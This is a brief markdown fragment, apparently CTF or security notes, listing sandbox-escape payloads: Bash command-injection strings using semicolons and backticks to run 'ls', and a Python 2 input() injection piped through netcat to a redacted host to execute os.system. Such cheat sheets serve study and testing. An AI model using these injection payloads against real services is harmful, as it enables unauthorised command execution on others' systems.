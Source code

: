 ## Sandbox (payload)

- `BASH`

```
"";
; ls
` ls `
```

- `Python`

  - `2-7 input()`
  
    - ```sh
      echo "__import__('os').system('ls')" | nc REDACTED
      ```
